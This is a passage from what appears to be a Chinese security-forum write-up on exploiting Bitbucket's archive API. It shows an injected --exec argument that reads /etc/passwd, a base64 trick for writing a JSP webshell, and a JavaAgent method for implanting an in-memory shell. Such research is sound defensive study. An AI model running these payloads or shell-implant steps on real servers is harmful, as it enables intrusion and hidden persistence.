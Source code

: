 0x02 绕过回显限制
===========

执行命令的回显存在空格截断的问题，使用“|base64 -w 0”将命令base64编码后输出一行执行可以绕过其限制。

rest/api/latest/projects/cfx/repos/lord/archive?format=zip&amp;path=bighax&amp;prefix=fusion/%00--remote=/%00--exec=%60cat%20/etc/passwd%20%7cbase64%20-w%200%60%00--prefix=/!

0x03 尝试写入webshell
=================

linux命令执行条件下写入webshell相信大家都烂熟于心：

echo xxx | base64 -d &gt; 1.jsp

java应用一般有许多复杂的解析规则，一般jsp可能无法解析。 寻找可以被解析的jsp目录最暴力的方式就是搜索应用目录的jsp文件

find / -name .jsp

没有的话我们一般尝试寻找静态资源目录，放jsp看是否能够解析。很可惜这个项目对访问的url有限制。且利用成功后为bitbuctet权限，无法修改配置。

![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-2b2dd37087352c8ae94cde8f0ae68b3b1ef84ffc.png)

0x04 植入内存shell
==============

JavaAgent
---------

我们在多数反序列化和webshell利用场景中，都是位于当前web上下文中执行代码。增加一个webFileter/webHanlder等操作通过动态执行代码的方式非常自然。

如何通过命令执行修改已经启动的程序是一个问题，java给出的解决方案是使用JavaAgent，对应的命令行参数为-javaagent:agent.jar。如下图：

![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-c9be13d4e7c8a3183d0aabc98e828b168c145907.png)

简单来说，这种方式提供给程序员操作正在运行中程序jvm虚拟机的可能。我们可以在另一个程序操作已有的jvm虚拟机。这部分代码比较简单，如下图：

![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-21da1e68061732e41aa1a697347f19226966d23f.png)

1处获取到所有的jvm虚拟机，并找到tomcat对应的虚拟机，2处装载JavaAgent，这里的JavaAgent是一个文件。JavaAgent加载的文件需要包含agentmain或premain等函数：

public static void agentmain(String agentArgs, Instrumentation inst) {  
...  
}

在agentmain中实现我们自己的代码，实现了在另一个jvm中执行任意代码的效果。后续通过反射等手段获取到web上下文进行内存马植入即可。主要参考动态注册的内存马，包括Servlet型、Listener型及Filter型的内存马。

这样我们需要通过大量的反射实现这个效果，除此之外我们有更简单的方法。我们可以重点关注agentmain函数的第二个参数Instrumentation类型，这个类包含许多方法：

![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-79116265f6becc1464d5fc2a62fa284619c606a9.png)

其中我们最关注的是addTransformer和retransformClasses方法，addTransformer参数为ClassFileTransformer类型。

addTransformer该函数可以将一个ClassFileTransformer类的实例的transform函数返回的字节数组转换成类定义。也就是说我们定义类可以通过字节数组直接实现，而不需要进行传统定义。

配合retransformClasses可以改变正则运行的jvm的class。

